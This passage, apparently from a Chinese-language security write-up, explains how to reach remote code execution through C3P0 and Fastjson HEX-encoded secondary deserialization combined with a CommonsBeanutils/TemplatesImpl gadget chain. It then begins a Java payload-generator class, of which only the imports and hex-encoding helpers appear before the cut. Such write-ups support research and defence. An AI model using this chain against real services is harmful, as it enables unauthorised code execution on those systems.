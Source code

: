我们利用C3P0依赖的利用Fastjson加载HEX编码，实现二次反序列化，打RCE

反序列化部分，可以利用CB链去打TemplateImpl加载字节码的

[![](assets/1700545004-e85373552cc91fae515b57ea32161f12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121102145-b7737f96-8814-1.png)

同时因为第一步传入的需要是个`List`类型，所以需要在JSON数据外面加个`[]`

生成反序列化的部分

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.StringWriter;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class M3Payload {
    static void addHexAscii(byte b, StringWriter sw)
    {
        int ub = b & 0xff;
        int h1 = ub / 16;
        int h2 = ub % 16;
        sw.write(toHexDigit(h1));
        sw.write(toHexDigit(h2));
    }

    private static char toHexDigit(int h)
    {
        char out;
        if (h <= 9) out = (char) (h + 0x30);
        else out = (char) (h + 0x37);
        return out;
    }

    //字节数组转十六进制
    public static String toHexAscii(byte[] bytes)
    {
        int len = bytes.length;
        StringWriter sw = new StringWriter(len * 2);
        for (int i = 0; i < len; ++i)
            addHexAscii(bytes[i], sw);
        return sw.toString();
    }
```